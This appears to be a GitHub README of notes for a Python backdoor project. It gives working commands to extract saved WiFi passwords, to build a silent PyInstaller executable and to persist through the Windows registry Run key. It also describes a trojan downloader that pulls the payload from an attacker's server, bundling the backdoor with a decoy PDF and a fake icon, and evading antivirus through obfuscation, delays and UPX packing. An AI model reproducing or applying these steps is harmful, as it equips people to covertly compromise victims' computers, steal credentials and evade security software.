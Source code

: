 ## py-backdoor
- Initial Execution
- ![Screenshot 2024-08-08 125205.png](./assets/Screenshot_2024-08-08_125205_1723103941525_0.png)
- Execution after Boot [ Windows-Persistence]
- ![Screenshot 2024-08-08 125543.png](./assets/Screenshot_2024-08-08_125543_1723103929817_0.png)
### </>
- **WiFi-Password Extraction**
	- To show all networks - `netsh wlan show profile`
	- To display details of a particular network - `netsh wlan show profile <network name> key=clear`
### Packaging - Download and Execute
- `Pyinstaller`
	- `pip install pyinstaller` - convert `.py` to executables
		- **note:** architecture of the target and the attack machine must be the same for this to work
		- `pyinstaller client.py --onefile`
		- `pyinstaller backdoor.py --onefile --noconsole -n client.exe`
- **Silent Execution**
	- `sys.exit() # reliable exit -> prevents error message from being displayed`
	- To execute with no console`pyinstaller client.py --onefile --noconsole`
		- `subprocess.check_output()` interacts with `stdio` and `stderr` by default
			- to disable interaction
			  ```
			  DEVNULL = open(os.devnull,'wb')
                          # All I/O will be redirected to DEVNULL
			  return subprocess.check_output(command, 
							shell=True,
							stderr=DEVNULL,
							stdin=DEVNULL)
			  ```
- **Persistence**
	- Key - `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`
		- Fields
			- Name - `/v`
			- Type - `/t`
			- Data - `/d`
	- Modify key
		- `reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v Scheduler /t REG_SZ /d C:/Users/user1/AppData/Roaming/scheduler.exe /f`
	- **note**- since the backdoor starts every time the computer starts; if the listener is not running error will be raised -> to prevent this add `try-catch` to `main`
- `troj_exp.py`
	- downloads the image file and runs it
	- checks to see if backdoor is already present in `appdata` directory
	- if not present it downloads the file from the attacker's python server where both thr `.exe` and `image.png` are served
- Disadvantages with previous build
	- The target needs an internet connection when running the trojan
	- Malware files have to be hosted
### Packaging - Combine Dummy w/ Backdoor
- `pyinstaller --add-data "../dummy/image.png:." --onefile --noconsole backdoor.py -n scheduler.exe`
	- `--add-file` - `src-file-path:.` ; `:.` tell pyinstaller to keep the front files in the default application temp directory
	- The code below executes the front files
	  ```
	  file_name = sys._MEIPASS + "\Resume.pdf"
	  subprocess.call(file_name, shell = True)
	  ```
   	- `_MEIPASS` : the path to the _internal folder within the bundle [ in this case, the Non-Malicious PDF ]
   	- The Backdoor also checks if the current process is being run by a `user` or being run automatically on startup; If it is run by a `user` the PDF file is opened 
- **mask executable** with `.ICO`
	- `pyinstaller --add-data "../dummy/Template.pdf:." --onefile --noconsole backdoor.py -n Template --icon <path-to-ico-file>`
	- ![image.png](./assets/image_1722969936363_0.png)
### AV-Evasion
- Detection Mechanisms
	- Signature-based bypass measures
		- useless operations - loops, arithmetic etc.
		- encoding and obfuscation
	- Behaviour-based bypass measures
		- Delay execution - use `time.sleep()`
		- Run normal trusted operations before malicious execution
- Compress `exe` - `upx`
	- `./upx /<path-to-backdoor.exe> -o compressed_backdoor.exe`
- `IDAPro` can be used to modify the binary itself
